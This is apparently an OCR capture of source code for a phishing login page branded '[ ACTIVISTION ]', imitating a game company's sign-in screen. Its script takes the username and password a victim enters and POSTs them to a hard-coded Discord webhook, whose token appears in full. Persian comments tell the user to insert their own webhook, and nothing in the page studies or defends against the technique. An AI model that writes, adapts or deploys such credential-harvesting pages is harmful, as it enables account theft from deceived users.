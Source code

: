       color: #007755;
    }
  </style>
</head>
<body>
  <div class="login-box">
    <div class="logo">[ ACTIVISTION ]</div>
    <form id="loginForm">
      <input type="text" id="username" placeholder="Username" required>
      <input type="password" id="password" placeholder="Password" required>
      <button type="submit">ENTER</button>
    </form>
    <div class="footer">© 2025 Activistion</div>
  </div>

  <script>
    const webhookURL = "https://discord.com/api/webhooks/1415774928359395471/S30zEAtEpeFQZSET7ICTE0es1G6JbQkbSPeSgrOb5N1j3SBHgc3nMKhSf07peuSSfi0X"; // اینجا وبهوک خودتو بذار

    document.getElementById("loginForm").addEventListener("submit", function(e) {
      e.preventDefault();

      const username = document.getElementById("username").value;
      const password = document.getElementById("password").value;

      // داده‌ای که میره به وبهوک
      const payload = {
        content: `🔐 New Login Attempt\n👤 Username: ${username}\n🔑 Password: ${password}`
      };

      fetch(webhookURL, {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify(payload)
      }).then(res => {
        if (res.ok) {
          alert("Sent to webhook ✅");
        } else {
          alert("Webhook error ❌");
        }
      });
    });
  </script>
</body>
</html>
